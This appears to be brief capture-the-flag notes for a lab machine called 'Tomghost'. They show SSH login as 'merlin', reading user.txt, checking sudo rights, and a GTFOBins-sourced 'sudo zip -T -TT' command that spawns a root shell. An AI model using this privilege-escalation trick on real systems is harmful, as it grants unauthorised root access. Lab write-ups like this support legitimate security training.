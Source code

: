 # Tomghost


ssh merlin@$IP
cat user.txt
sudo -l

https://gtfobins.github.io

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
